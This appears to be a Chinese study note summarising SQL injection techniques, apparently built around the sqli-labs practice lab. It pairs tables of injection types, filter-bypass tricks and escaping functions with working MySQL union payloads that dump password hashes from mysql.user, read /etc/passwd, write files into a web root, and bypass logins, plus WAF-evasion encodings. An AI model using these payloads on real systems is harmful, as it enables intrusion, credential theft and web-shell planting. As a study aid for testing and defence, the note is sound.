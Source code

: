 ```yaml
---
title: SQL注入技巧总结
date: 2020-01-10 22:13:05
tags:
    - SQL注入
categories:
    - 笔记总结
---
```

## 注入类型总结

在不断实践中经常遇到如下注入类型，总结如下：

| 注入类型   | 条件                                      | 关键                                      |
| ---------- | ----------------------------------------- | ----------------------------------------- |
| union注入  | 显示查询结果                              | order by , union select                   |
| 布尔注入   | 只返回False或者True                       | length、ord函数、二分法                   |
| 报错注入   | 返回错误信息                              | updatexml、group_concat等函数             |
| 时间盲注   | 无返回信息判断可执行sleep                 | sleep、if等函数                           |
| 宽字节注入 | 数据库为GBK编码、使用了addslashes函数转义 | %df'可以吃掉单引号                        |
| 堆叠注入   | 执行多条查询语句                          | 使用分号分隔多条查询语句                  |
| Cookie注入 | 在请求头中cookie参数异常                  | 可用 sqlmap -r cook.txt - p 参数          |
| base64注入 | 有base64编码过的参数                      | 将payload进行base64编码,可用tamper        |
| XFF注入    | PHP中有getenv函数获取环境配置             | x-forward-for、http_client_ip等请求头参数 |
| 二次注入   | 用户注册功能等                            | 在注册中插入恶意代码，在登录中执行        |

<!-- more -->

## 绕过方式总结

| 绕过方式     | 绕过技巧                                                     |
| ------------ | ------------------------------------------------------------ |
| 大小写绕过   | 关键字未过滤大小写混写的情况，如UniON SEleCt                 |
| 双写绕过     | 关键字仅做替换的情况，可双写替换成需要的语句。如seleselectct替换为select |
| 编码绕过     | 未对编码过滤，可进行url、ascil等常用的编码payload            |
| 内联注释绕过 | /*!and*/                                                     |

## 反注入函数总结
|函数名称|作用|
|---------- | -------------- |
|addslashes($string)|用反斜线引用字符串中的特殊字符' " \|
|mysql_escape_string($string)|用反斜杠转义字符串中的特殊字符，用于mysql_query()查询|
|mysql_real_escape_string($string)|转义SQL语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集，需要保证当前是连接状态才能用该函数，否则会报警告。 不转义%与_|

## 注入常用函数总结
|函数名称|作用|
|---------- | -------------- |
|group_concat|可以把查询的内容组合成一个字符串|
|load_file(file name ) |读取文件并将文件按字符串返回|
|left（string，length）|返回最左边指定的字符数：left（database（），1）>’s’ (猜名字)|
|length（）|判断长度length（database（）>5 |
|substr（a，b，c) | 从字符串a中截取 b到c长度 |
|ascii（）|将某个字符转为ascii值ascii（substr（user（），1，1））=101#|
|mid（a，b，c）|从字符串a中截取 b到c位置（可以用来猜数据库名 ）|

## 常查询变量

|变量|返回结果|
|----- | -----|
| database | 数据库名 |
| version | 数据库版本号 |
| user | 数据库当前用户名 |
| @@basedir | 数据库安装路径 |
| @@version_compile_os | 数据库操作系统 |

## 注入常用命令


* 查看当前用户
> union select 1,(select user())–+

* 查看数据库版本
> union select 1,(select version())–+

* 查看当前数据库名
> union select 1,(select database())–+

* 查看操作系统
> union select 1,(select @@version_compile_os)–+

* 所有用户
> union select 1,(select group_concat(user) from mysql.user)–+

* 用户hash
> union select 1,(select group_concat(password) from mysql.user where user=’root’)

* 查看所有数据库名
> union select 1,(SELECT group_concat(schema_name) from information_schema.schemata)–+

* 查看某一个库的全部表
> union select 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema=’库名’)–+
> union select 1,(SELECT group_concat(table_name) from information_schema.table_constraints where table_schema=’库名’

* 查看某个表的字段名
> union select 1,(SELECT group_concat(column_name) from information_schema.columns where table_name=’表名’)–+

* 查看某个库中某个表的字段名
> union select 1,(select group_concat(column_name) from information_schema.columns where table_name=’表名’ and table_schema=’库名’)–+

* 读文件
> union select 1,(SELECT load_file(‘/etc/passwd’))–+

* 写文件
> union select 1,’‘ into outfile ‘C:\phpStudy\PHPTutorial\WWW\Less-8\3.php’–+


## 绕过登录验证
* admin’ –
* admin’ #
* admin’/*
* ‘ or 1=1–
* ‘ or 1=1#
* ‘ or 1=1/*
* ‘) or ‘1’=’1–
* ‘) or (‘1’=’1–


## 特定符号绕过
|符号名|绕过方法|
|----------- | --------------|
|空格|%09 %0a %A0 %20 /**/|
|注释符|-- - /* .... */ # ` ;%00 %23|
|union|uniounionn UNioN uni/**/on /*!union*/|
|select|selecselectt SeCel/**/t /*!select*/|
|or|oorr OR o/**/r /*!or*/ |||
|and| && anandd ANd an/**/d /*!and*/|